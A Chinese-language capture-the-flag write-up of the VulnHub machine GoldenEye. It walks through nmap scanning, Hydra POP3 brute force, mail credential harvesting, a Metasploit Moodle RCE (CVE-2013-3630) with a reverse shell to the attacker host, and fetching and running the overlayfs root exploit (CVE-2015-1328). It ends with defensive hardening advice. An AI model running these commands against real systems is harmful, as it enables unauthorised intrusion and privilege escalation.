










# GoldenEye — VulnHub 靶机渗透 Writeup

> 源码信息泄露 → POP3 弱口令爆破 → 邮件凭据链逐跳捡号 → Moodle 认证后 RCE → 内核 overlayfs 提权拿下 root 的完整链路。

| 项目 | 说明 |
| --- | --- |
| 靶机 | GoldenEye: 1 |
| 来源 | https://www.vulnhub.com/entry/goldeneye-1,240/ |
| 难度 | 中级（boot2root / OSCP-like） |
| 目标 | 获取 `root` 权限并读取 flag |
| 关键技能 | 端口扫描 / 源码信息泄露 / POP3 弱口令爆破 / 邮件凭据链 / 图片隐写 / Moodle 认证后 RCE / 内核提权 |
| 攻击机 | Kali Linux `172.20.26.160` |
| 靶机 | `172.20.26.150` |

> 说明：本文是我练这台靶机的完整过程记录，参考思路后自己从头打了一遍，命令和回显均为本机截图，记录踩过的坑，方便复习，也当项目经验。

---


## 0. 攻击链总览（TL;DR）

这台靶机没有什么一上来就能用的软件漏洞，前半段全靠**信息泄露 + 弱口令**一点点捡凭据，后半段才是认证后 RCE 加内核提权。整条链如下：

```
信息收集 -> 网页源码泄露用户名/编码密码 -> Hydra爆破POP3 弱口令
   -> 登邮箱逐跳捡凭据(boris→natalya→xenia→doak→admin)
   -> Moodle后台 -> 认证后RCE(CVE-2013-3630)拿www-data
   -> 内核overlayfs提权(CVE-2015-1328) 拿root -> flag
```


---


## 目录

- [1. 信息收集](#1-信息收集)
- [2. Web 源码信息泄露](#2-web-源码信息泄露)
- [3. Hydra 爆破 POP3](#3-hydra-爆破-pop3)
- [4. 邮件凭据链](#4-邮件凭据链)
- [5. Moodle 后台捡凭据](#5-moodle-后台捡凭据)
- [6. 认证后 RCE（CVE-2013-3630）](#6-认证后-rcecve-2013-3630)
- [7. 内核提权（CVE-2015-1328）](#7-内核提权cve-2015-1328)
- [8. 防御建议（蓝队视角）](#8-防御建议蓝队视角)
- [9. 我对这台靶机的理解](#9-我对这台靶机的理解)


---


## 1. 信息收集

### 1.1 找靶机 IP

同一个网段，先用 netdiscover 扫：

```bash
netdiscover -r 172.20.26.0/24
```



找到靶机：`172.20.26.150`。


### 1.2 端口扫描

先全端口扫一遍，别只扫默认的，这台的重点就在高位端口：

```bash
nmap -p- 172.20.26.150
```

```
25/tcp    open  smtp
80/tcp    open  http
55006/tcp open  unknown
55007/tcp open  unknown
```

> 这里第一个收获：除了常见的 25(SMTP)、80(HTTP)，还有 `55006`、`55007` 两个非默认高位端口。如果偷懒只扫默认端口就漏了，后面就打不下去了。

再对这几个端口做详细的服务/版本探测：

```bash
nmap -p 25,80,55006,55007 -sC -sV -A 172.20.26.150
```

整理一下：

| 端口 | 服务 | 版本/说明 |
|---|---|---|
| 25 | smtp | Postfix smtpd |
| 80 | http | Apache 2.4.7，标题 "GoldenEye Primary Admin Server" |
| 55006 | ssl/pop3 | Dovecot pop3d（带 SSL）|
| 55007 | pop3 | Dovecot pop3d（明文）|




---


## 2. Web 源码信息泄露

### 2.1 访问首页

```
http://172.20.26.150/
```



页面提示：`Navigate to /sev-home/ to login`，但去 `/sev-home/` 需要账号密码，现在还没有。


### 2.2 看源码

按照渗透常规流程，先 `view-source` 看首页源码，发现引了一个 `terminal.js`：

```
view-source:http://172.20.26.150/terminal.js
```

可见注释：



注释里直接泄露了关键信息（翻译后）：

```
发现关键信息：
Boris, 务必更新你的默认密码。 
我的情报说军情六处可能准备渗透。 
警惕任何可疑的网络流量....  
我把你的密码编码了，放在下面：  
InvincibleHack3r（解码后）
顺便说一句，Natalya说她能破解你的密码
```

拿到：

- 用户名：`Boris`，`boris`，`Natalya`，`natalya`
- 密码：`InvincibleHack3r`

经过验证：

- 最终账号密码：boris/InvincibleHack3r


用 `boris:InvincibleHack3r` 登录 `/sev-home/`，进去后页面提示：**pop3服务配置在一个很高的非默认端口上**——对应前面扫到的55007。


---


## 3. Hydra 爆破 POP3

把已知的几个用户名写进字典，大小写都放进去：

```bash
echo -e 'natalya\nboris\nBoris\nNatalya' > key.txt
hydra -L key.txt -P /usr/share/wordlists/fasttrack.txt 172.20.26.150 -s 55007 pop3 -vV
```

爆破出来两个：

```
[55007][pop3] login: boris    password: secret1!
[55007][pop3] login: natalya  password: bird
```


---


## 4. 邮件凭据链

pop3可以直接用 `nc` 连，手动收邮件：

```bash
nc 172.20.26.150 55007
user boris
pass secret1!
list        # 看有几封
retr 1      # 读第几封
```

- 关键信息

**boris 的邮箱**：第 3 封邮件（发件人 `alec@janus.boss`）提到有个密钥附件被放进了服务器root目录的隐藏文件里——这其实是最后提权找flag的伏笔。

**natalya 的邮箱**：第 2 封邮件泄露了新凭据和站点：

```
用户名：xenia
密码：RCP90rulez!
站点：severnaya-station.com/gnocertdir
提示：本机要改 hosts，把域名指到靶机 IP
```


### 4.1 配置 hosts

这个域名是内网私有域名，公网 DNS 解析不了，得自己在本地 hosts 写（hosts 优先级比 DNS 高）：

```bash
echo "172.20.26.150 severnaya-station.com" >> /etc/hosts
```


---


## 5. Moodle 后台捡凭据

### 5.1 指纹识别

```bash
whatweb severnaya-station.com/gnocertdir
```

发现是个**Moodle** CMS（PHP 5.5.9）用 `xenia:RCP90rulez!` 登进




### 5.2 站内寻找敏感信息

在 `Home -> My profile -> Messages` 里发现一封信，提到用户`doak`。继续拿Hydra爆破这个用户的 pop3：

```bash
echo -e 'doak\nDoak' >> key.txt
hydra -L key.txt -P /usr/share/wordlists/fasttrack.txt 172.20.26.150 -s 55007 pop3
#输出
[55007][pop3] host: 172.20.26.150   login: doak   password: goat
```

`nc` 登 doak 邮箱，又拿到一组 Moodle 账号：`dr_doak:4England!`


### 5.3 图片隐写拿到 admin 密码

用 `dr_doak` 登 Moodle，在 `My private files` 里发现 `s3cret.txt`

关键内容提示：

```
Something juicy is located here: /dir007key/for-007.jpg
```

下载这张图：

```bash
wget http://severnaya-station.com/dir007key/for-007.jpg
```

查看图片属性发现藏了一段 base64：`eFdpbnRlcjE5OTV4IQ==`，解码得到：

```
xWinter1995x!
```

因为Moodle管理员账号固定是 `admin`，所以获得凭证：`admin:xWinter1995x!` 登录后台成功




---


## 6. 认证后 RCE（CVE-2013-3630）

后台版本是**Moodle 2.2.3**，对应已知漏洞**CVE-2013-3630**（PSpellShell 命令执行），用Metasploit打：

```bash
msfconsole
search moodle
use exploit/multi/http/moodle_spelling_binary_rce
set username admin
set password xWinter1995x!
set rhost severnaya-station.com
set targeturi /gnocertdir
set payload cmd/unix/reverse
set lhost 172.20.26.160
run
```

> **坑1**：第一次直接exploit失败了。查阅相关文档发这个漏洞要靠Moodle的拼写检查引擎，得先在后台把拼写引擎改成PSpellShell：
> `Home -> Site administration -> Plugins -> Text editors -> TinyMCE HTML editor`
>
> 改完保存，再回去exploit才成功。

成功后拿到的是 `www-data` 的 shell，但这个 shell 不是交互式的，用起来很难受。升级一下：

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```




---


## 7. 内核提权（CVE-2015-1328）

### 7.1 找提权点

先看内核版本：

```bash
uname -a
#Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

这个版本对应 overlayfs 本地提权漏洞 **CVE-2015-1328**，exp 是 exploit-db 的 `37292.c`。

```bash
searchsploit 37292
cp /usr/share/exploitdb/exploits/linux/local/37292.c .
```

> **坑 2**：靶机上没有 `gcc`，只有 `cc`。所以要把 `37292.c` 里第 143 行的 `gcc` 改成 `cc`，否则编译不了。


### 7.2 传 exp 过去编译执行

Kali 上开个 http 服务把 exp 传过去：

```bash
# Kali
python3 -m http.server 80
```

```bash
# 靶机（最好在/tmp下，可写）
cd /tmp
wget http://172.20.26.160/37292.c
cc -o exp 37292.c
chmod +x exp
./exp
id          # uid=0(root)  提权成功
cat /root/.flag.txt
#568628e0d993b1973adc718237da6e93
```



拿到 root，读到 flag


---


## 8. 防御建议（蓝队视角）

| 面 | 风险 | 加固措施 |
| --- | --- | --- |
| Web | 首页 `terminal.js` 注释泄露用户名与编码后的密码 | 上线前清理源码注释/调试文件，前端绝不留任何凭据线索 |
| 口令 | POP3 弱口令（`secret1!`/`bird`/`goat`）、默认管理员账号 `admin` | 强口令策略、改名或禁用默认账号、登录失败锁定、fail2ban |
| 凭据管理 | 邮件正文明文存放新凭据，跨服务凭据散落可逐跳捡取 | 不在邮件/明文存凭据、敏感信息加密、按服务最小授权、禁止口令复用 |
| 隐蔽性安全 | 把密码藏进可下载图片隐写、Moodle 私有文件，以为藏起来就安全 | security through obscurity 无效——敏感文件必须做访问控制，而非靠隐藏 |
| 应用 | Moodle 2.2.3 老版本，认证后 RCE（CVE-2013-3630，PSpellShell 命令执行） | 及时升级 Moodle、限制后台访问来源 IP、最小化第三方插件 |
| 主机 | 内核 3.13 存在 overlayfs 提权（CVE-2015-1328） | 内核升级打补丁、限制非特权用户命名空间、`/tmp` 挂载 `noexec` |

**应急响应检测点**：POP3 短时多次登录失败（爆破特征）；异常下载 `.jpg` / 隐写文件；Moodle 后台触发 PSpellShell / 拼写引擎调用；`/etc/ld.so.preload` 被写入或出现可疑 `.so`；非预期的 `uid=0` 进程与提权后的异常行为。

---

## 9. 我对这台靶机的理解

这台靶机本质是**信息泄露驱动的凭据链渗透**：

- **前半程**几乎不涉及软件漏洞，全靠读网页注释、邮件正文、图片隐写这些，低权限就能看到的信息，跳着捡凭据：`boris/natalya -> xenia -> doak -> dr_doak -> admin`，核心弱点是**默认口令、明文存凭据、把密码藏在能下载的地方**这种隐蔽性安全，以为藏起来就安全，其实一找就发现。
- **后半程**是两段式提权：先用admin口令打Moodle认证后RCE拿到`www-data`，再用内核overlayfs漏洞提到 `root`，拿到flag

### 关于 overlayfs 提权（CVE-2015-1328）

overlayfs是叠合文件系统，上层叠在下层之上。当你改一个只存在于下层的文件时，内核会先把它「copy-up」复制到上层再改。漏洞就出在copy-up的**权限检查**上：它只检查了你对上层目录有没有写权限，没校验你对被复制文件本身的权限，导致文件属性在拷贝时被不当带过去。配合普通用户能挂载用户命名空间，就能以「假root」身份往敏感位置写文件。

`37292.c`干的事：创建用户命名空间->挂overlayfs->利用copy-up缺陷往`/etc/ld.so.preload`写入并落一个恶意`.so`->执行`su`让动态链接器预加载它，以root执行代码->拿rootshell。**本质是骗内核替你以root身份写文件，是逻辑/权限校验缺陷，不是内存溢出。**

提权漏洞按成因大致分四类，记住分类比死记 CVE 编号有用：

1. 内存破坏（溢出、UAF）
2. 竞态条件（如 Dirty COW，CVE-2016-5195）
3. 逻辑/权限校验缺陷（本例就是）
4. 配置错误（SUID、sudo、cron、可写路径）
